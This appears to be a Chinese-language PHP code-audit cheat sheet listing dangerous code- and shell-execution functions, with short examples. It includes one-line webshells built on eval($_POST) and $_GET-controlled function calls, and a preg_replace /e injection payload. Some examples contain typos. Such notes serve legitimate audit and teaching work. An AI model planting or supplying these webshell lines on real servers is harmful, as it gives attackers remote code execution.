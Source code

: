 
# PHP代码审计中需注意的特殊函数

[常见特殊函数](#常见需要注意的特殊函数)
[命令执行](#shell命令执行函数)
[文件操作函数](#文件操作函数)
[特殊函数](#特殊函数)

## 常见需要注意的特殊函数

1. PHP代码执行函数

    1. `eval函数`   `mixed eval(string $code)`  该函数是把字符串当作PHP代码来执行。(已被列入黑名单)。

    ```php
    <?php @eval($_POST['pass']);?>
    ```
    > 在一个php文件中，eval执行完就会结束，所以当同一个php文件中有多个eval的时候，只会执行第一个。


    2. `assert`函数 `(mixed $assertion[,$string $description])` 由于大多数杀软吧 `eval` 列入黑名单了，所以用 `assert` 来代替 `eval` 函数来执行操作。

    ```php
    <?php $_GET[a]($_GET[b]);?>
    ```

    3. preg_replace($pattern,$replacement,$subject[])
    使用`/e` 修正符使`preg_replace()`将`replacement` 参数作为PHP代码
    ```php
    preg_replace("/test/e"，$_GET["h"],"just test");
    ```
    如果我们提交 `?h=phpinfo()`  , `phpinfo`就会被执行。


    4. string create_function($args,$code)
    创建一个匿名函数，并返回独一无二的函数名
    ```php
    $newfunc=create_function('$v','return system($v);');
    ```   
    `$newfunc('whomai');` 就相当于 `systeam('whoami');`

    5. 回调函数 `call_user_func($callback)` 调用，把参数数组做(param_arr)为回调函数的参数传入。

---

##  shell命令执行函数

|函数|作用|示例(此处command由shell代替)|
|---|---|---|
|exec() | 执行一个外部程序|exec("shell")|
|passthru() |执行外部程序并且显示其原始输出 , 此函数由来替代 exec() 或 system() 函数|passthru("shell")|
|proc_open()|执行一个命令，并且打开用来输入或输出的文件。此函数默认被禁用，需更改PHP.ini|proc_open("shell", $descs,"$pipes")详情见下[1]|
|shell_exec()&``|通过shell环境执行命令，并且将完整的输出以字符串的方式返回。|echo shell_exec("shell");
|system()|执行外部程序，并且无需`echo`可显示执行输出结果|system("shell")|
|popen()|通过popen()的参数传递一条命令，并对popen()所打开的文件进行执行文件执行。|$file = popen("shell","r"); pclose($file); 路径要写全。|
|$_REQUEST|HTTP Request 变量,默认情况下包含了 `$_GET`，`$_POST` 和 `$_COOKIE` 的数组。|$_REQUEST['']|

